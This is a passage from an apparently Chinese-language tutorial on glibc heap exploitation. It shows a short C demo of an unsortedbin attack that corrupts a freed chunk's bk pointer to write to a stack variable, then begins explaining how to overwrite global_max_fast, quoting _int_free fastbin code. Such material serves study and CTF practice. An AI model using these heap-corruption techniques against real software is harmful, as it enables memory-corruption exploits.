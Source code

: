 ```C
#include <stdio.h>
#include <stdlib.h>

//直接用setvbuf保持堆区干净是最好的
void setbufs()
{
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
	setvbuf(stderr,0,2,0);
}

int main(){

	unsigned long stack_var=0;
	unsigned long *p=malloc(400);

	setbufs();
	//printf("hello,world!\n");
	
	p = malloc(400);
	malloc(500);

	free(p);
	p[1]=(unsigned long)(&stack_var-2);

	malloc(400);

	printf("stack_var: 0x%llx\n",stack_var);

	return 0;
}
```



----

### expolit global_max_fast

&emsp;&emsp;<font size=2>按照惯例，每次分析完了之后都要来一些甜品技术，这里就列一个利用`unsortedbin attack`任意地址写到`global_max_fast`来实现可控的利用吧，技术原理其实看过两部曲和上面这篇文章之后就可以理解了。</font></br>

&emsp;&emsp;<font size=2>我们之前看malloc分析的时候有一个全局变量叫`global_max_fast`，而且我们也知道就是这个变量设定了fastbin的最大大小，倘若我们通过某种手法把这个变量改的很大，那么我们接下来分配或者释放的堆块都会先进入fastbin的逻辑。回忆一下，main_arena中堆块表fastbinY和bins是什么时候被改写的？就是free的时候，用main_arena中堆块表中记录的堆块地址判断是否是同种size堆块的第一次释放，或者是根据记录进行被释放堆块的大小检查进而更新一下堆块的fd、bk指针，而其中fastbin的检查又最为简单，仅仅只是检查了一下是否存在double free。我们看如下`_int_free`中的fastbin部分的判断逻辑：</font></br>

```C
  if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())

#if TRIM_FASTBINS
      /*
        If TRIM_FASTBINS set, don't place chunks
        bordering top into fastbins
      */
      && (chunk_at_offset(p, size) != av->top)
#endif
      ) {

    //...
    
    free_perturb (chunk2mem(p), size - 2 * SIZE_SZ);

    set_fastchunks(av);
    unsigned int idx = fastbin_index(size);
```